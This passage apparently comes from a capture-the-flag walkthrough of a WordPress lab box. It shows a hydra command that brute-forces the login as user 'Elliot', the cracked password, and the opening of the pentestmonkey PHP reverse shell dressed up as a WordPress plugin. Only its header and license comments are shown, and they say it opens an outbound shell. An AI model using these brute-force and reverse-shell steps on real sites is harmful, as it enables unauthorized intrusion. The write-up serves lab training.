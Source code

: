 We got the username `Elliot`. Now let's bruteforce the password.

```shell
hydra -l Elliot -P fsocity.dic 10.10.243.162 http-post-form "/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.175.84%2Fwp-admin%2F&testcookie=1:S=302"
```

Finally we bruteforced the pass: `ER28–0652`.

After logging and searching for some interesting we can find that we can upload plugins for Wordpress, so let's upload reverse shell this way:

```
<?php
/*
Plugin Name:  Reverse Shell
Plugin URI: http://shell.com
Description: gimme a shell
Version: 1.0
Author: me
Author URI: http://www.me.com
Text Domain: shell
Domain Path: /languages
*/
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//
// In all other respects the GPL version 2 applies:
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License version 2 as
// published by the Free Software Foundation.
//
// This program is distributed in the hope that it will be useful,
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
// GNU General Public License for more details.
//
// You should have received a copy of the GNU General Public License along
// with this program; if not, write to the Free Software Foundation, Inc.,
// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  If these terms are not acceptable to
// you, then do not use this tool.
//
// You are encouraged to send comments, improvements or suggestions to
// me at pentestmonkey@pentestmonkey.net
//
// Description
// -----------
// This script will make an outbound TCP connection to a hardcoded IP and port.
// The recipient will be given a shell running as the current user (apache normally).
//
// Limitations
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
// Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
```